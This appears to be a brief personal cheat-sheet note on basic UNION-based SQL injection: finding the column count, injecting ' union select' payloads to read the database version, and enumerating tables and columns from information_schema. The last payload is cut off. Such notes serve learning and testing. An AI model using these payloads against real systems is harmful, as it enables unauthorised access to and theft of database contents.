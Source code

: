 ```yaml
---
title: "basic sql injection"
date: 2012-10-04 17:18:44
tags: ["sql", "sql", "injection"]
---
```


```sql
SELECT user
FROM users 
WHERE user.name = 'jeffrey';
```


1. FIND NUMBER OF COLUMNS  
	"order by" trick - test if you can order by a column number

2. NOW WE CAN DO A UNION (# OF COLUMNS MUST MATCH)  
	' union select 1,2,3,version() -- -

3. NOW WE CAN GET TABLE, COLUMN, AND DATABASE INFO  
	' union select 1,2,3,table_name from information_schema.tables where table_schema="x8250" -- -  
  ' union select 1,2,3,column_name from information_schema.columns where table...
